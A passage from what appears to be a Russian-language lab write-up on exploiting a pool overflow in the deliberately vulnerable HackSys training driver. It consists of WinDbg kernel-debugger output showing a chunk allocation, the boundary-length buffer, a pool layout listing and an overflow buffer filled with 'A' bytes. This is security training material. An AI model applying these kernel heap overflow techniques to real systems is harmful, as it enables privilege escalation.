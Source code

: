 ```js
kd> g
[+] Allocating Pool chunk
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x1F8
[+] Pool Chunk: 0x8509E008
[+] UserBuffer: 0x012721B0
[+] UserBuffer Size: 0x64
[+] KernelBuffer: 0x8509E008
[+] KernelBuffer Size: 0x1F8
[+] Triggering Pool Overflow
[+] Freeing Pool chunk
[+] Pool Tag: 'kcaH'
[+] Pool Chunk: 0x8509E008
****** HACKSYS_EVD_IOCTL_POOL_OVERFLOW ******
```

Попробуем длину ровно 0x1F8, будем на границе допустимого:

```js
kd> g
[+] Allocating Pool chunk
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x1F8
[+] Pool Chunk: 0x850C4D50
[+] UserBuffer: 0x00375668
[+] UserBuffer Size: 0x1F8
[+] KernelBuffer: 0x850C4D50
[+] KernelBuffer Size: 0x1F8
[+] Triggering Pool Overflow


kd> !pool 0x850C4D50
Pool page 850c4d50 region is Unknown
 850c4000 size:   48 previous size:    0  (Free )  Vad 
 850c4048 size:   48 previous size:   48  (Free )  Vad 
 850c4090 size:   48 previous size:   48  (Free )  Vad 
 850c40d8 size:   48 previous size:   48  (Free )  Vad 
 850c4120 size:   48 previous size:   48  (Free )  Vad 
 850c4168 size:   28 previous size:   48  (Allocated)  FSro
 850c4190 size:   b8 previous size:   28  (Allocated)  File (Protected)
 850c4248 size:  128 previous size:   b8  (Allocated)  Ntfi
 850c4370 size:   98 previous size:  128  (Allocated)  MmCa
 850c4408 size:  168 previous size:   98  (Allocated)  CcSc
 850c4570 size:   68 previous size:  168  (Allocated)  FMsl
 850c45d8 size:   c8 previous size:   68  (Allocated)  Ntfx
 850c46a0 size:   b8 previous size:   c8  (Allocated)  File (Protected)
 850c4758 size:  128 previous size:   b8  (Allocated)  Ntfi
 850c4880 size:   98 previous size:  128  (Allocated)  MmCa
 850c4918 size:   28 previous size:   98  (Free)       CcSc
 850c4940 size:  140 previous size:   28  (Free )  Io   Process: 86db94b8
 850c4a80 size:  128 previous size:  140  (Allocated)  Ntfi
 850c4ba8 size:   b8 previous size:  128  (Allocated)  File (Protected)
 850c4c60 size:   c8 previous size:   b8  (Allocated)  Ntfx
 850c4d28 size:   20 previous size:   c8  (Free)       Io  
*850c4d48 size:  200 previous size:   20  (Allocated) *Hack
    Owning component : Unknown (update pooltag.txt)
 850c4f48 size:   b8 previous size:  200  (Allocated)  File (Protected)


 kd> dd 850c4d48 L90
850c4d48  04400004 6b636148 00000000 0030e810
850c4d58  41414141 41414141 41414141 41414141
```